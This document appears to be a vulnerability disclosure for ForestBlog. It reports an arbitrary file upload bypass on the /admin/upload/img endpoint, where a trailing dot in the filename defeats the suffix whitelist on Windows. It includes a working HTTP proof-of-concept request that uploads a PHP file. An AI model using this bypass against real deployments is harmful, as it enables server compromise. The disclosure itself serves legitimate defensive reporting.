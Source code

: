 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](image-20231212235628456.png)





![image-20231212235938258](/../a/image-20231212235938258.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.21.64.185:8090
Content-Length: 217
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysCaHQits7v3jAaOh
Origin: http://172.21.64.185:8090
Referer: http://172.21.64.185:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=BB01F841CB10B9619AC5D0A1D363F4FD
Connection: close

------WebKitFormBoundarysCaHQits7v3jAaOh
Content-Disposition: form-data; name="file"; filename="aa.php."
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundarysCaHQits7v3jAaOh--

```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

![image-20231213000618896](image-20231213000618896.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](image-20231213000645385.png)
